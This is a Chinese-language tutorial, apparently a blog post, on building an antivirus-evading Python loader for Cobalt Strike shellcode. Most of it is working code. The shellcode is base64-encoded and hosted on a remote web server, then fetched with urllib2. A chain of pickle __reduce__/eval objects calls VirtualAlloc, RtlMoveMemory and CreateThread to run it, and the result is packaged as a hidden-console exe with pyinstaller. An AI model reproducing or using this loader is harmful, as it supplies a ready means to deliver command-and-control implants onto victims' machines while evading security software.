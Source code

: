 ```yaml
---
title: 基于加载器的python反序列化免杀(打包生成的exe暂只支持win7可执行)
tags:
  - 免杀
---
```

### 基于加载器的python反序列化免杀(打包生成的exe暂只支持win7可执行)

<strong>PS：来自moonsec师傅的分享</strong>

#### 0x01 环境配置

Win10 x64

Win7  x64

Python 2.7.18

Pyinstaller3.4

CS4.0

<strong> pip install pyinstaller==3.4 -i https://pypi.doubanio.com/simple/ </strong>

|---------------------------------------------------------------------------------------|

#### [0x02 免杀原理]

利用反序列化加载器绕过杀软基于特征的免杀。利用编码绕过shellcode的查杀。可以将加密好的shellcode放在远程服务器上，再加载不同的shellcode，进行扩展。

#### 0x03 制作加密shellcode

利用cs获取shellcode

![](https://fifteenblackslime.github.io/assets/pic/media1/e0aa28720b9c4622e4d0a6ca71e13fb4.png)

此处选择python语言，以及使用x64payload，否则执行python文件时会中断。

![](https://fifteenblackslime.github.io/assets/pic/media1/a398c4e7bf777025737ed5a996feec68.png)

此处生成payload为：

![](https://fifteenblackslime.github.io/assets/pic/media1/8310ab75b4e0a155e8b54989c05e9269.png)

使用任意方式进行加密，此处采用base64进行。

用生成payload替换buf

<strong> import base64,urllib2 <br> buf = "shellcode" <br> html = base64.b64encode(buf) print html </strong>


|---------------------------------------------------------------------------------------|


将使用base64加密后的payload保存为txt文件，然后放在可访问web目录下。

![](https://fifteenblackslime.github.io/assets/pic/media1/38fa0ebdce2832091cde822472d890fa.png)

使用如下脚本测试是否能够获取到解密后的payload

<strong>import base64,urllib2 <br> html = urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64') print html </strong>

此处看到ip表示解密未出现问题。

![](https://fifteenblackslime.github.io/assets/pic/c20169b6d62cf1444bbeb9d0da605c74.png)

#### 0x04 使用加载器加载payload

使用如下加载器尝试加载执行：<br>
import ctypes,cPickle,base64,urllib2<br>
class ptr(object):<br>

    def __reduce__(self):
        return (eval, ("urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64')",))
class buf(object):<br>

    def __init__(self,shellcode):
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.VirtualAlloc(0,len(shellcode),0x1000,0x40)",))

class windll(object):

    def __init__(self,rwxpage,shellcode):
        self.rwxpage = rwxpage
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.RtlMoveMemory(rwxpage,ctypes.create_string_buffer(shellcode),len(shellcode))",))

class ht(object):

    def __init__(self,rwxpage):
        self.rwxpage = rwxpage

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.CreateThread(0,0,rwxpage,0,0,0)",))

class run(object):
    def __init__(self,handle):
        self.handle = handle

    def __reduce__(self):
        return (eval,("ctypes.windll.kernel32.WaitForSingleObject(handle,-1)",))

if __name__ == '__main__':

    raw_shellcode = ptr()
    ser_shellcode = cPickle.dumps(raw_shellcode)
    emb32_shellcode = base64.b32encode(ser_shellcode)
    shellcode = cPickle.loads(base64.b32decode(emb32_shellcode))

    raw_vir = buf(shellcode)
    ser_vir = cPickle.dumps(raw_vir)
    emb32_vir = base64.b32encode(ser_vir)
    rwxpage = cPickle.loads(base64.b32decode(emb32_vir))

    raw_rtl = windll(rwxpage,shellcode)
    ser_rtl = cPickle.dumps(raw_rtl)
    emb32_rtl = base64.b32encode(ser_rtl)

    raw_handle = ht(rwxpage)
    ser_handle = cPickle.dumps(raw_handle)
    emb32_handle = base64.b32encode(ser_handle)
    handle = cPickle.loads(base64.b32decode(emb32_handle))

    raw_run = run(handle)
    ser_run = cPickle.dumps(raw_run)
    emb32_run = base64.b32encode(ser_run)

    output = '''import ctypes,cPickle,base64,urllib2

e_shellcode = "{}"
shellcode = cPickle.loads(base64.b32decode(e_shellcode))

e_rwxpage="{}"
rwxpage = cPickle.loads(base64.b32decode(e_rwxpage))

e_code = "{}"
cPickle.loads(base64.b32decode(e_code))

e_handle = "{}"
handle = cPickle.loads(base64.b32decode(e_handle))

e_run = "{}"
cPickle.loads(base64.b32decode(e_run))'''.format(emb32_shellcode,emb32_vir,emb32_rtl,emb32_handle,emb32_run)

    with open('shellcode.py','w') as f:
        f.write(output)
        f.close() 

|---------------------------------------------------------------------------------------|

执行py文件后，会在该文件目录下生成shellcode.py，使用python执行后，查看CS是否上线：

![](https://fifteenblackslime.github.io/assets/pic/media1/5aa8c2c6a950c1a4275d484eff957f3e.png)

如成功上线，使用pyinstaller生成exe可执行文件。

#### 0x05 pyinstaller生成exe文件

pyinstaller生成指定图标无命令行的exe文件

<strong> pyinstaller.exe –noconsole –onefile shellcode.py -i 128.ico -n shellcode </strong>



![](https://fifteenblackslime.github.io/assets/pic/media1/bf36cb2d74e7d10cf0cd41661f2deadc.png)

生成默认目录为pyinstaller.exe所在目录中的dist目录下

![](https://fifteenblackslime.github.io/assets/pic/media1/67faca8a79d2c4a479fb3d551ca7fd57.png)
